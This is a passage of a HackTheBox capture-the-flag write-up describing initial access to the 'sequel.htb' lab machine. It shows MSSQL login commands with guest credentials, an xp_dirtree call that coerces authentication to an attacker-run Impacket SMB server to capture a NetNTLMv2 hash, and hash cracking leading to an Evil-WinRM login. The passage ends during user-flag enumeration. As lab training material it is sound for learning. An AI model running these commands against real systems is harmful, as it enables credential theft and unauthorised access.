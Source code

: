 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/882f92b2-ee31-4513-a7d6-cc2c825ebdb8)

Using the obtained credentials, I attempted AS-REP roasting to identify any accounts that "Do not require Kerberos pre-authentication." However, it appears that all the accounts require pre-authentication. 😕

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/86abd543-ff8b-4d01-ae17-6df0d9c339dc)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Intital access:

Using the Guest credentials, I attempted to access the SQL server using the Impacket script "mssqlclient.py":

```
python3 mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
```

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/2484dbe1-8969-4d29-9f29-af964c8d7626)

Once inside the SQL server, I conducted a Google search and discovered that I could use the 'xp_dirtree' command to access remote files from shares. By starting an SMB server and directing the SQL server to my network share, there was a possibility that the service account would expose its hashed credentials during the authentication process.

I launched an SMBv2 server using another Impacket script and directed the SQL server to my SMB-enabled host. This exposed the NetNTLMv2 hash in the response:

```
python3 impacket/examples/smbserver.py kill3r . -smb2support
```

```
SQL> xp_dirtree '\\10.10.14.3\kill3r'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/188f1598-1202-4267-9902-af0eab6b63bf)

I used 'hashcat' to crack the NetNTLMv2 hash and obtained the clear text password.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/c9043af9-e9bb-4cfa-8558-5c8e7bd7d0e7)

Finally, using the cracked credentials of the 'sql_svc' service account, I gained initial access to the host via Evil-WinRM: (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/5e7a5fa4-db30-4090-a511-5b56444e7d2b)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### User.txt:

Although I had gained access to the network, I had not yet obtained the user flag. While conducting enumeration under the 'sql_svc' account, I noticed a folder called 'SQLServer' on the 'C:' drive. Within this folder, there was a 'Logs' directory containing error logs related to users.
